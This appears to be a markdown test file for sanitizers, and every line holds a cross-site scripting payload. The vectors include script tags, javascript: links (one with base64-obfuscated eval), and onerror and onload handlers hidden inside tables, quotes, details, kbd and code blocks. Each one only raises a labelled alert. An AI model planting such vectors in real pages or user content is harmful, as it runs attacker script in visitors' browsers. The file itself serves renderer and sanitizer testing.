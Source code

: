 ![alt text](javascript:void(0)) <script>alert('XSS after image')</script>

[link text](javascript:eval(atob('YWxlcnQoJ2Jhc2U2NCBYU1MnKQ=='))) 

<details><summary>Click me</summary><img src=x onerror=alert('XSS in details')></details>

<table><tr><td><script>alert('XSS in table')</script></td></tr></table>

<kbd><img src=x onerror=alert('XSS in kbd')></kbd>

<mark><iframe src="javascript:alert('XSS in mark')"></iframe></mark>

<blockquote><svg onload=alert('XSS in blockquote')></blockquote>

<pre><code><img src=x onerror=alert('XSS in code block')></code></pre>

***<script>alert('XSS after emphasis')</script>***

`code` <img src=x onerror=alert('XSS after inline code')>

> Quote <script>alert('XSS in quote')</script>